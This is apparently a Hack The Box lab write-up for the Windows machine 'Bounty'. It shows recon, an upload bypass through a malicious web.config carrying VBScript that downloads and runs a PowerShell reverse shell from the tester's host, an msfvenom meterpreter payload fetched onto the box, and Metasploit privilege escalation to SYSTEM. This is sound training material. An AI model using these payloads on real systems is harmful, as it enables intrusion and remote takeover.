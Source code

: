 # Bounty-HTB
Bounty is a Windows machine that is rated as easy. In this box we will see how to bypass file uploade protection.
# Recon
We first start by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ nmap -sC -sV 10.10.10.93                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 19:15 EDT
Nmap scan report for 10.10.10.93
Host is up (0.029s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.60 seconds
```
## ffuf
Fuzzing web dir:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.93/FUZZ     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.93/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

UploadedFiles           [Status: 301, Size: 156, Words: 9, Lines: 2]
uploadedFiles           [Status: 301, Size: 156, Words: 9, Lines: 2]
```
Then I looked for .aspx files and found one:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.93/FUZZ.aspx

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.93/FUZZ.aspx
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

transfer                [Status: 200, Size: 941, Words: 89, Lines: 22]
```
And we find a upload page:

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Bounty/images/1.png)

# User Flag
So after many tries I found out that I can upload a ```.config``` file. So first get this file: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 . Now Add at the end of it the reverse shell: ```Invoke-PowerShellTcp -Reverse -IPAddress <your_ip_address> -Port 4444```.

Here is the code that I used to get reverse shell:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
Before uploading the file make sure you are running a python web server: ```python3 -m http.server```. After uploading it go to the file and you should get your reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.93] 49163
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```
So the User Flag is hidden to show it we need to use option ```-force``` with ```dir```:
```
PS C:\Users\merlin\Desktop> dir -force


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a-hs         5/30/2018  12:22 AM        282 desktop.ini                       
-a-h-         5/30/2018  11:32 PM         32 user.txt                          


PS C:\Users\merlin\Desktop> type user.txt
e29ad898...82f44a2f
```
# Root Flag
First let's upgrade our shell to a meterpreter shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.28 LPORT=5555 -f exe > meterpreter.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of exe file: 207872 bytes
```
and now download it into the box:
```
PS C:\Users\merlin> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.28:8000/meterpreter.exe', 'c:\users\merlin\meterpreter.exe')
```
So now if you run it you should get a meterpreter shell:
```
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:5555 
[*] Meterpreter session 1 opened (10.10.14.28:5555 -> 10.10.10.93:49185) at 2020-09-07 20:26:50 -0400

meterpreter > getuid 
Server username: BOUNTY\merlin
```
So now let's run ```multi/recon/local_exploit_suggester``` and see what we can get.
```
msf5 post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 17 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```
For this box ```exploit/windows/local/ms16_014_wmi_recv_notif``` will be the answer, let's fire it up:
```
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:7777 
[*] Launching notepad to host the exploit...
[+] Process 1380 launched.
[*] Reflectively injecting the exploit DLL into 1380...
[*] Injecting exploit into 1380...
[*] Exploit injected. Injecting payload into 1380...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (201283 bytes) to 10.10.10.93
[*] Meterpreter session 2 opened (10.10.14.28:7777 -> 10.10.10.93:49186) at 2020-09-07 20:30:22 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
And we are ```SYSTEM```, get your Root Flag:
```
meterpreter > shell 
Process 2984 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c837f7b69...079f9d4f5ea
```

